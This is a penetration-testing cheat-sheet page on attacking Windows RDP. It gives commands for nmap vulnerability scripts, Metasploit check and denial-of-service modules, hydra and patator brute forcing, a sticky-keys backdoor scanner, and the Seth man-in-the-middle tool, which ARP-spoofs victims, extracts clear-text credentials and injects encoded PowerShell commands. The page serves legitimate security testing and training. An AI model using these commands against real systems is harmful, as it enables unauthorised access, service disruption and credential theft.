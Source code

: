 # ⭕ RDP

### remote connect

{% hint style="info" %}
**remember when you access an active RDP session the current user will be kicked off**
{% endhint %}

remote desktop connection from linux

```
rdesktop -u [user] [domain or ip]
xfreerdp /u:"[user]" /v:[ip]:[port]
```

### nmap

```
nmap -Pn -n 127.0.0.1 --script rdp-enum-encryption
nmap -Pn -n 127.0.0.1 --script rdp-ntlm-info
nmap -Pn -n 127.0.0.1 --script rdp-vuln-ms12-020
```

### metasploit modules

```
use auxiliary/scanner/rdp/ms12_020_check
use auxiliary/dos/windows/rdp/ms12_020_maxchannelids
```

### rdp-sec-check

checks which encryption algorithms and authentication methods are used, as well as some other security settings. At the end of the check, rdp-sec-check summarizes the potential security issues of the Remote Desktop Service.

```
sudo cpan
install Encoding::BER
Ctrl+d
wget https://raw.githubusercontent.com/portcullislabs/rdp-sec-check/master/rdp-sec-check.pl
chmod +x rdp-sec-check.pl
./rdp-sec-check.pl --help
```

### brute force

```
patator rdp_login host=192.168.0.101 user=FILE0 password=FILE1 0=user.txt 1=passwords.txt
hydra -V -f -L /root/Desktop/user.txt -P /root/Desktop/dict.txt rdp://192.168.0.102
```

### Man-in-the-middle attack on RDP

Responder is a comprehensive tool for performing a man-in-the-middle attack against Windows authentication methods. Among other rogue servers , the program has an RDP server.

#### for more info refer to [windows authentication hacking](https://miloserdov.org/?p=4055)

### Sticky-keys & Utilman

sticky-keys-hunter is a script for testing RDP hosts on sticky keys and utilman backdoor.

```
sticky-keys-hunter TARGET_IP
```

## RDP MitM

{% embed url="https://github.com/SySS-Research/Seth" %}

Seth is a tool written in Python and Bash to MitM RDP connections by attempting to downgrade the connection in order to extract clear text credentials. It was developed to raise awareness and educate about the importance of properly configured RDP connections in the context of pentests, workshops or talks. The author is Adrian Vollmer (SySS GmbH).

```
git clone https://github.com/SySS-Research/Seth.git
cd Seth 
pip install -r requirements.txt

./seth.sh <INTERFACE> <ATTACKER IP> <VICTIM IP> <GATEWAY IP|HOST IP> [<COMMAND>] 
```

{% hint style="info" %}
Note: The last IP address must be that of the gateway, this can only change if the victim’s computer shares a subnet with the RDP host.
{% endhint %}

The last parameter is optional. It can contain a command that is executed on the RDP host by simulating WIN+R via key press event injection. Keystroke injection depends on which keyboard layout the victim is using - currently it's only reliable with the English US layout. I suggest avoiding special characters by using `powershell -enc <STRING>`, where STRING is your UTF-16le and Base64 encoded command. However, `calc` should be pretty universal and gets the job done.

\
The shell script performs ARP spoofing to gain a Man-in-the-Middle position and redirects the traffic such that it runs through an RDP proxy. The proxy can be called separately. This can be useful if you want use Seth in combination with Responder. Use Responder to gain a Man-in-the-Middle position and run Seth at the same time. Run seth.py -h for more information.
